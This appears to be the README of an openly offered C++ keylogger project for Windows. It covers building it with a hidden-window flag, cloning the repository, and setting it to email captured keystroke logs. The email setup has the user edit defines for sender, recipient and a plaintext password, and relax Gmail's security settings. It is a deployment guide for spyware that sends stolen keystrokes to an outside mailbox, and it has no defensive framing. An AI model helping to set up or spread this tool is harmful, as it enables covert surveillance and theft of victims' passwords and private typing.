 What things you need to install the software and how to install them

```
* Visual Studio preferably or any IDE of your choice
* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked

```

### Installing

A step by step series of examples that tell you have to get a development environment running

Download the repository using either bash or the browser

```
git clone https://github.com/EngAhmedSalah/Advanced-Keylogger
```

Open the solution file in [Visual Studio or CodeBlocks 16 or higher] using the sln file

```
located at ..\Cpp-Keylogger\Keylogger.sln
```

For other IDEs, make a project that includes all source and header files

```
located at ..\Cpp-Keylogger\Keylogger
```

## Setting it up
Listed below are various options the user can interact with the source code for their specific usage.

## Email
Required if user wants the log to be sent to an email.

Open SendMail.h
```
located at ..\Cpp-Keylogger\Keylogger\SendMail.h
```
Edit line 16 for where the log should be sent from (default: gmail only, look at Other Emails section for changing that)
```
line 16: #define X_EM_TO "our.destination@email.address" // change the string to source email
```
Edit line 17 for where the log should be sent to (can be same as above or any other email is fine)
```
line 17: #define X_EM_FROM "Address of sender" // change the string to destination email
```
Edit line 18 for powershell to login to source email (required for email to be sent)
```
line 18: X_EM_PASS "password" // change the string to password of source email
```
## Configuring the Source Email
For gmail, allow less secure apps access your source email so the program can construct and send the email.
The steps needed to do this is documented [here](https://support.google.com/accounts/answer/6010255?hl=en) on Google Support. <br/>
Refer to Other Emails section if the source email is not gmail.
